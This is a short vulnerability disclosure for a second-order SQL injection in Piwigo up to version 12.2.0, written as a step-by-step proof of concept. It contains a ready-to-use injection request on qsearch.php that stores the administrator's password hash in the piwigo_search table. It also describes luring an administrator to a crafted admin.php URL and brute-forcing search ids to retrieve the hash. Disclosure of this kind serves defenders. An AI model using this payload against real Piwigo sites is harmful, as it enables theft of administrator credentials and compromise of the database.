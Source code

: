 ## Second-Order SQL Injection Vulnerabilities in Piwigo 12.2.0
<u>**Affected Version : <=12.2.0**</u>

A Second-Order SQL injection exists in Piwigo before 12.2.0. 
An attacker can use the function of search to insert some sql injection payload into the piwigo_search table and then use the id retrieved to generate an evil URL. 
 When an administrator open the URL, the sql injection will be triggered. An attacker can exploit the vulnerabilities to gain access to the connected MySQL database.

**Steps to Reproduce:**

**Step 1**
 
Request `http://127.0.0.1/qsearch.php?q[test'),((select concat("a:1:{s:1:\"q\";s:41:\"password:",(select mid(password,1,32) from piwigo_users where id%3d1),"\";}")))%23]=1`

And then it will be redirected to `http://127.0.0.1/index.php?/search/${id}`

Record the value of the id.



**Step 2**
 
Generate the URL `http://127.0.0.1/admin.php?page=history&search_id=${id}&user_id=1` (Replace the ${id} into the id that we have gotten last step).

And then send the URL to the administrator.


 
**Step 3**
 
After an administrator open the URL above, a piece of data that contains the password of the administrator account will be inserted into the piwigo_search table.If we want to retrieve the data, we need to know the id of the data that has been inserted into the piwigo_search table.Because the id is incremental, we can just bruteforce it.


Then we request `http://172.20.10.8/index.php?/search/${id}` to  retrieve the password of the administrator.
 
![2](21.png)
 
